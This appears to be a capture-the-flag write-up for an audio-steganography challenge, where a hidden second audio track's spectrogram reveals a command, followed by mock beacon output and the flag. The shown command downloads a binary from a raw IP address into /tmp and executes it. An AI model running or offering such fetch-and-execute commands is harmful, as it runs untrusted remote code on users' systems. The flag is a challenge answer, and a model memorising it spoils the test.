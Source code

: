 # Sorry, you're NOT a sigma!

The lion says solve this challenge. You seem to have a good **track** record at doing so.

**SHA256:** `66591540e5dd8e925128513d1ca0810118350c822429e4e8c1d1a98b7d8924f3`


## Solution

By loading the `.mp4` file into a program such as Audacity, you can see there are two audio tracks in the file, however, you only hear one when viewing the file using a media player. When choosing the second audio track, you can then view the spectrogram for the hidden distorted audio which visually contains the following command within the spectrogram:

```
curl -s http://23.179.17.40:6969/roar /tmp/roar && chmod +x /tmp/roar && /tmp/roar
```

The above command downloads a binary and then executes it on your system which should output something similar into your terminal over the span of around 10 seconds:

```
[*] Initializing beacon...
[*] Beacon attempt 1: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 2: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 3: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 4: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 5: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 6: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 7: phoning home...
[+] Beacon successfully reached C2 on attempt 7.
[*] Downloading payload...
[*] Decrypting response...
[+] Flag received:
CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```

No, it is not actually a C2 beacon.

## Flag

> `CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}`